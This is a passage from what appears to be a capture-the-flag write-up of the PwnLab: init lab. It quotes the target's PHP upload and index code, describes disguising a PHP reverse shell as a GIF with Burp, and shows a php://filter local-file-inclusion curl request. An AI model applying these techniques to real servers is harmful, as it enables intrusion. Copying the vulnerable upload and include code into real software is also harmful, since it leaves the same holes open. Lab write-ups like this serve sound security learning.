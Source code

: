 ```php
		$filetype  = $_FILES['file']['type'];
		$uploaddir = 'upload/';
		$file_ext  = strrchr($filename, '.');
		$imageinfo = getimagesize($_FILES['file']['tmp_name']);
		$whitelist = array(".jpg",".jpeg",".gif",".png"); 

		if (!(in_array($file_ext, $whitelist))) {
			die('Not allowed extension, please upload images only.');
		}

		if(strpos($filetype,'image') === false) {
			die('Error 001');
		}

		if($imageinfo['mime'] != 'image/gif' && $imageinfo['mime'] != 'image/jpeg' && $imageinfo['mime'] != 'image/jpg'&& $imageinfo['mime'] != 'image/png') {
			die('Error 002');
		}

		if(substr_count($filetype, '/')>1){
			die('Error 003');
		}

		$uploadfile = $uploaddir . md5(basename($_FILES['file']['name'])).$file_ext;

		if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)) {
			echo "<img src=\"".$uploadfile."\"><br />";
		} else {
			die('Error 4');
		}
	}
}
```

so image extensions are `$whitelist = array(".jpg",".jpeg",".gif",".png");`

copy a php reverse shell into a gif file, use burp add `GIF`


{% img  /images/blog/vulhub/pwnlab_init/Selection_014.png   [title manually exploit [alt text]] %}

then the php shell is uploaded

{% img  /images/blog/vulhub/pwnlab_init/Selection_015.png   [title manually exploit [alt text]] %}


now need to find out how to trigger the shell

check index.php

`curl http://192.168.50.131/?page=php://filter/convert.base64-encode/resource=index`

```php
<?php
//Multilingual. Not implemented yet.
//setcookie("lang","en.lang.php");
if (isset($_COOKIE['lang']))
{
	include("lang/".$_COOKIE['lang']);
}
// Not implemented yet.
?>
<html>
<head>
<title>PwnLab Intranet Image Hosting</title>
</head>
<body>
<center>
```